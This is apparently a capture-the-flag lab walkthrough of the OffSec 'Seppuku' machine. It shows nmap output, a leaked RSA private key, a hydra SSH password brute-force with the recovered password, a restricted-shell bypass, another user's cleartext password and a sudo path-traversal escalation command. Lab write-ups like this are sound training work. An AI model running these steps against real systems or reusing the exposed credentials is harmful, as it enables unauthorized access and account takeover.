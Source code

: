 ip : 192.168.51.90

## Nmap Scan

```
nmap -p- -A -sC 192.168.51.90
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-22 06:20 EDT
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 25.00% done; ETC: 06:20 (0:00:18 remaining)
Stats: 0:00:13 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 62.50% done; ETC: 06:20 (0:00:07 remaining)
Stats: 0:00:17 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.10% done; ETC: 06:20 (0:00:00 remaining)
Nmap scan report for 192.168.51.90
Host is up (0.0042s latency).
Not shown: 65527 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           vsftpd 3.0.3
22/tcp   open  ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 cd55a8e40f28bcb2a67d4176bb9f71f4 (RSA)
|   256 16fa29e4e08a2e7d37d26f42b2dce922 (ECDSA)
|_  256 bb74e897fa308ddaf95c99f0d9248ad5 (ED25519)
80/tcp   open  http          nginx 1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-title: 401 Authorization Required
|_http-server-header: nginx/1.14.2
139/tcp  open  netbios-ssn   Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn   Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
7080/tcp open  ssl/empowerid LiteSpeed
|_http-title: Did not follow redirect to https://192.168.51.90:7080/
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=seppuku/organizationName=LiteSpeedCommunity/stateOrProvinceName=NJ/countryName=US
| Not valid before: 2020-05-13T06:51:35
|_Not valid after:  2022-08-11T06:51:35
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
|_http-server-header: LiteSpeed
7601/tcp open  http          Apache httpd 2.4.38 ((Debian))
|_http-title: Seppuku
|_http-server-header: Apache/2.4.38 (Debian)
8088/tcp open  http          LiteSpeed httpd
|_http-title: Seppuku
|_http-server-header: LiteSpeed
Service Info: Host: SEPPUKU; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-05-22T10:20:27
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: seppuku
|   NetBIOS computer name: SEPPUKU\x00
|   Domain name: \x00
|   FQDN: seppuku
|_  System time: 2023-05-22T06:20:29-04:00
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.99 seconds

```

- Checking the http connection on port 7601

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/317ebc33-585a-4442-b779-2eb6fe4daf48)
 
## Directory search
![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/6e19faaa-c40c-4e1f-84d8-fec81dbf512f)

- Found two directories , `keys` & `secret`

- In keys there is a private key
```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAypJlwjKXf0F4YvL2gfwvoUuvB7fuGMMfCe41gLCsTsleOUy2
CJX+oNwVVKPpl6TYI4nXPGbiwfGzoxm0FZa7D9yr83OgwuvMMp83OkVcwL9v+x7a
tK8AAVZ0NjvOPGkvEhB2rPS2mKg1xRKXCM7pA0KSOoDbk9coOpadjg4G0f1YPWrw
p6iLfIErfY2+5hS7QyTQpuRmHuR4eKLF1NFRp8gYuNCVtr0n2Uu6hWuI7RWBGQZJ
Joj8LKjfRRYmKGpyqiGTdRy+8yCyAuT55shuCzXuc+/3HE2jACOD8+pSPKjwxzm4
fuaSfBTUkHfyhiSKIkop2YfIDLKRPM8dGn5zuQIDAQABAoIBADM+s7Vb3Q1ZP54w
foHFjTsNjVqzge0Lt1doxmomx4Aq2sY+DLLBVyfUZSUDTj2JexAKd8OU93o+rcXt
46uudOX/WhR9RMbqpb6MnokEMQGlrCtn08Xvm127RCzQFk0cAsdcGNmKEoMt0mRn
XoPg6/tiJOHd5S5SOKARqAveqoUGUYI3xgsiRpj8CCRIDUgHi9J0++qUeauVw3m3
lvyTnUTw0uf5+sRkI173CUY+ygJapGM7Lg59xzcjEq5H4so0IztQo3o/pOIfeS6W
bqIpY7D63YBGLgpi9JcN/d2bSfafkfhcrAcjPjRXwEFPmYjMbsTBOKcTtCSDVo6/
ho6fTl0CgYEA9F1uIkqxFKIMt2/uK4/1gPOXy/1cjxcsFoah0Ql7d0gj26H6AgXk
nPncIoO1kojPnB+TUy4qz+Bd7teDbkHSaWNJYIVJZQbvskstwgL4+XamiWrJA/Jp
h7y0I0zRxCMBj5yhBNrp6P+f8vtVMpjbKV17jfe6aakfyuayPugHHh8CgYEA1DeM
4lR/+/fUbxtws+aTx8h9TwisYq38D39KNsWkynnb+9pnLCbVbVETtv4sfD/aQfah
R7CxOG+mD4Vryjpk/wwzZeUDzcQpiTx4RsgP6MkFU8knORKfBdimaUpiasWlNWgy
caXR/iA6EmA4jht8vf/+UOUV8GXV9VqDIWUhgycCgYEAvJaGcqyWMUhG7CLT+oal
f5l/Iw0rq7rEabYJmBvrT0k7czt0iK8nmgYy3+gp7ybqoqCzwFQ28itEExn78tGV
o4Pek0EKPY+22TCv5bUJlOz+5bql3AfvbbQyibO1h9tETyMgGXEhaJIvTQSu4deZ
/DiLLCttkDHXuW2FTosfQx0CgYEAkhGOSjapRRBHSxaTE3Cw5UFNZvnsVZu1tCEE
PwD5NVh9HzQr8YrlOnIk5L68deUpYF/WkNbAlLzcizBlifN5kseeFRN188qCYHCb
xPRtZuf+X7ZD5he4FzkRCcXmSeGynjkTB4CAMq+R6RYLt1yaFtk9/gZAfJBLna5o
NbM7Rt8CgYA5oPRfIpKZ5G9LJEAsBUONgBsrpXs+816ZEvBGsqPs/NPhhZMFetKm
RXxYAiEUudMsahP4Woeuxy8kWfM2J2ltwC/HRFuKnKfsHBhsn/FilspYfrafr985
tFnL/K9Z8le1saEGjwCu6zKto7CaFjj2D4Y9ji0sHGBO+tVbtmU/Jg==
-----END RSA PRIVATE KEY-----

```

- In `secret` directory we got hostname and password list

## SSH enumuration

```
hydra -l seppuku -P password.lst 192.168.51.90 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-22 06:50:37
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 93 login tries (l:1/p:93), ~6 tries per task
[DATA] attacking ssh://192.168.51.90:22/
[22][ssh] host: 192.168.51.90   login: seppuku   password: eeyoree
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-22 06:51:27

```
- Thats Awesome 😃 , we got the password
- SSH using the hostname and pass that we got 
![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/6a97beb9-658d-415a-ba50-124a385e1929)

- tried something but not workout 🥺
![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/6e06aa8f-1a89-4cbc-a6ec-2700ef32000f)

- This also had restricted bash as previous challenge
- so using ` ssh seppuku@192.168.51.90 -t "bash" ` , we can access it

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/1edcf163-74e8-452d-82b9-cd307f2da3eb)

- Found there are 3 users, may be the hidden passwd is for that user
`12345685213456!@!@A`
![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/1a3a4d06-bb44-4c0c-8db6-737971f09e80)

- For checking that user command permissions as root user , we used `sudo -l`
![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/b6bf1b45-c48f-4229-a2b9-5c34ce931ca5)


## Privilage escalation

- we can't able to enter into third user as we don't have any password, but we have found one sshkey before 

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/0c952d8b-1ab3-4b3d-8325-3bdb929a56b7)

- now trying the command `/../../../../../../home/tanto/.cgi_bin/bin /tmp/*`

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/3b97c6eb-7668-43ca-b466-475663b06ab6)

- Don't forgot to make a payload file excecutable , in suset decoy, challenge same mistake takes a week to solve.


![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/d9dbce48-4b95-4c91-ade5-42063b6f5e62)



